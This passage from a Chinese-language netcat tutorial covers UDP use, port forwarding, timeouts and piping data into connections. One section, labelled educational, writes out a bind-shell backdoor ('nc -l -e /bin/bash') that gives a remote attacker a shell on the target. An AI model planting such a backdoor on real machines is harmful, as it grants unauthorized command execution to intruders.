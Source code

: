 ```bash
# UDP服务器
nc -ul 1234

# UDP客户端
nc -u server_ip 1234
```

### 3. 端口重定向

```bash
# 将本地8080端口的流量重定向到远程服务器的80端口
nc -l 8080 | nc example.com 80
```

### 4. 创建后门（仅用于教育目的）

```bash
# 在目标机器上
nc -l -e /bin/bash 1234

# 在攻击者机器上
nc target_ip 1234
```

`-e`选项执行指定的程序，这里是bash shell。这会创建一个远程shell，允许攻击者执行命令。

### 5. 带超时的连接

```bash
nc -w 5 example.com 80
```

如果5秒内没有活动，连接将自动关闭。

## 使用重定向和管道 📊

Netcat可以与Linux的重定向和管道功能结合使用，实现更复杂的操作：

### 1. 使用Here文档发送数据

```bash
nc example.com 80 << EOF
GET / HTTP/1.1
Host: example.com

EOF
```

这会发送一个HTTP GET请求到example.com。

### 2. 使用Here字符串发送数据

```bash
nc -l 1234 <<< "Hello, World!"
```
